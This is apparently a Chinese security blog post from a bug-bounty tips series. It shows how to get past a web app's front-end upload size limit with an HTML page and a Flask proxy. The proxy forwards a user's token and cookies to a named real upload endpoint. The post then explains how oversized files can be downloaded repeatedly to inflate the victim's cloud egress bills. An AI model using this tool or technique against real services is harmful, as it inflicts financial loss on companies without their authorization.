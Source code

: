 #  SRC漏洞小技巧——文件上传垃圾漏洞之绕过上传大小  
原创 Ice  Ice ThirdSpace   2025-06-16 01:45  
  
在日常渗透测试中会发现有的上传功能的地方会限制上传大小，例如15M，如果绕过前端的这个提示，使用BURP抓包超大包 BURP会特别卡，导致无法发送，因此写了个小html和py来传输数据。  
  
  
如下图所示可能会遇到这类功能  
  
![image.png](https://mmbiz.qpic.cn/sz_mmbiz_jpg/ZmiaibBst1BVRd6fCoayXfjuMySppvbC5wnDbrf60grg6WiaVMLiboGDEHszjgwHVry9HszUO9f7RbmOag08ibsSpdg/640?wx_fmt=other&from=appmsg "")  
  
  
前端HTML代码  
```
<!DOCTYPE html>
<html lang="zh-CN">
<head>
    <meta charset="UTF-8">
    <title>文件上传演示（代理版）</title>
    <style>
        /* 样式保持不变 */
        body {
            font-family: Arial, sans-serif;
            max-width: 600px;
            margin: 20px auto;
            padding: 20px;
        }
        .upload-box {
            border: 2px dashed #ccc;
            padding: 30px;
            text-align: center;
            margin: 20px 0;
        }
        #status {
            margin-top: 15px;
            padding: 10px;
            border-radius: 4px;
        }
.input-group {
margin: 10px 0;
text-align: left;
	}

.input-group label {
display: block;
margin-bottom: 5px;
color: #666;
		}

.input-group input {
width: 100%;
padding: 8px;
border: 1px solid #ddd;
border-radius: 4px;
box-sizing: border-box;
		}

        .success { background: #dff0d8; color: #3c763d; }
        .error { background: #f2dede; color: #a94442; }
    </style>
</head>
<body>
    <h2>文件上传演示</h2>

<div class="upload-box">
    <!-- 新增：Authorization输入框 -->
    <div class="input-group">
        <label for="authInput">Authorization:</label>
        <input type="text" id="authInput" placeholder="Bearer token (可选)">
    </div>

    <!-- 新增：Cookie输入框 -->
    <div class="input-group">
        <label for="cookieInput">Cookie:</label>
        <input type="text" id="cookieInput" placeholder="Cookie值 (可选)">
    </div>

    <input type="file" id="fileInput" accept=".pdf,.doc,.docx">
    <button onclick="uploadFile()">上传文件</button>
    <div id="status"></div>
</div>

    <script>
async function uploadFile() {
const fileInput = document.getElementById('fileInput');
const statusDiv = document.getElementById('status');
const authInput = document.getElementById('authInput');
const cookieInput = document.getElementById('cookieInput');

if (!fileInput.files.length) {
showStatus('请先选择文件', 'error');
return;
		}

// +++ 修复1: 确保FormData初始化 +++
const formData = new FormData();
		formData.append('dir', 'user_pri');
		formData.append('file', fileInput.files[0]);

// 构建动态Header
const headers = {};
if (authInput.value) headers['Authorization'] = authInput.value;
if (cookieInput.value) headers['Cookie'] = cookieInput.value;

try {
const response = await fetch('http://localhost:5000/upload', {
method: 'POST',
headers: headers,
body: formData // 使用已初始化的formData
			});

if (response.ok) {
const result = await response.json();
showStatus(`文件上传成功！文件名：${result.filename}`, 'success');
			} else {
showStatus(`上传失败：${response.statusText}`, 'error');
			}
		} catch (error) {
showStatus(`网络错误：${error.message}`, 'error');
		}
	}

        function showStatus(message, type) {
            const statusDiv = document.getElementById('status');
            statusDiv.className = type;
            statusDiv.textContent = message;

            setTimeout(() => {
                statusDiv.className = '';
                statusDiv.textContent = '';
            }, 3000);
        }
    </script>
</body>
</html>
```  
  
  
python代码  
```
from flask import Flask, request
from flask_cors import CORS
import requests

app = Flask(__name__)
app.config['MAX_CONTENT_LENGTH'] = 100 * 1024 * 1024  # 允许100MB文件
CORS(app)

@app.route('/upload', methods=['POST'])
def upload():
    try:
        # 获取请求头
        auth_header = request.headers.get('Authorization', '')
        cookie_header = request.headers.get('Cookie', '')
        file = request.files['file']

        # 转发请求到目标API
        response = requests.post(
            'https://test.digifttest.com/api/file/upload',
            files={'file': (file.filename, file.stream)},
            headers={
                'Authorization': auth_header,
                'Cookie': cookie_header
            },
            data={'dir': 'user_pri'}
        )

        # 打印完整的返回包信息到控制台
        print("="*50 + " 响应详情 " + "="*50)
        print(f"状态码: {response.status_code}")
        print("\n响应头:")
        for key, value in response.headers.items():
            print(f"  {key}: {value}")
        print("\n响应体:")
        try:
            print(response.json())  # 尝试解析JSON
        except:
            print(response.text)    # 纯文本或二进制内容
        print("="*110 + "\n")

        # 返回完整响应信息
        return (
            response.content, 
            response.status_code,
            dict(response.headers)  # 携带原始响应头
        )

    except Exception as e:
        print(f"! 错误: {str(e)}")
        return {
            "error": str(e),
            "message": "代理服务器内部错误"
        }, 500

if __name__ == '__main__':
    app.run(port=5000, debug=True)  # 启用debug模式显示详细错误
```  
  
  
填写凭据  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZmiaibBst1BVRd6fCoayXfjuMySppvbC5whlkPoGalUOicbvORA4K08oXjNFmNk3Fq5DDZeQqTV5rfCiap61UagT3w/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZmiaibBst1BVRd6fCoayXfjuMySppvbC5wNfWl7G1b4TC4tXg1YrNjph6rXR6bFarCBQ8fOEov7lniaMibdJM8jfUg/640?wx_fmt=png&from=appmsg "")  
  
上传成功，这里我选择了一个20M的PDF文件上传成功，绕过了前端的限制，但是我还是上传不了更大的文件，例如200M  
  
应该是Spring boot或者Nginx层再次进行了限制  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZmiaibBst1BVRd6fCoayXfjuMySppvbC5wcMh1Bf1amLVeyDWaLp0F393fskNDQo8AiaoEwdb3OTJqbPrKBJ5OgDQ/640?wx_fmt=png&from=appmsg "")  
  
  
  
那么这里有什么作用呢，其实这里是一个类似攻击链，例如可以上传大包给OSS存储，OSS存储被访问是需要流量收费的，如果原本是15M，那麽攻击者就得刷流量刷到死，那如果攻击者上传的文件是是100M呢 ,1G的文件被刷流量呢，这个的危害就比较大了。  
  
  
  
我们可以通过以下案例学习  
> OSS案例  
  
> 梦康，公众号：加班写bug[血亏 2W，一个 OSS 安全漏洞](https://mp.weixin.qq.com/s/e7uoSkqLQU1njj8VxY6i7w)  
  
  
  
  
也就是说一个照片大小大概在1570G/2554=600M左右  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZmiaibBst1BVRd6fCoayXfjuMySppvbC5w95UCdHUvGqHficIyApMVSypSf7VIub5k0eamWVW1xPyQyjSJV19ZkmQ/640?wx_fmt=png&from=appmsg "")  
  
  
我们可以查看阿里云的OSS收费详情  
> 阿里云OSS  
  
> https://www.aliyun.com/price/product?spm=5176.8465980.console-base_help.4.4e701450EnmFQ6#/oss/detail/ossbag  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZmiaibBst1BVRd6fCoayXfjuMySppvbC5wucfuwUnysb8YAMBqiaCiaQXxEJmnt35aZqGoiaOO1hBibXfSBC5jE5tXkQ/640?wx_fmt=png&from=appmsg "")  
  
流入（上传不用钱）  
  
流出（访问需要收费约0.5/G）  
  
  
如果公司主要做海外服务的，那么配合这个大文件进行访问攻击，可以造成较大的金钱损失  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZmiaibBst1BVRd6fCoayXfjuMySppvbC5w1Gno4ErDNR8kt713Hl2aBiaKyCVZsyhKr0JWO0MkmX58c8xKzVFjpQw/640?wx_fmt=png&from=appmsg "")  
  
  
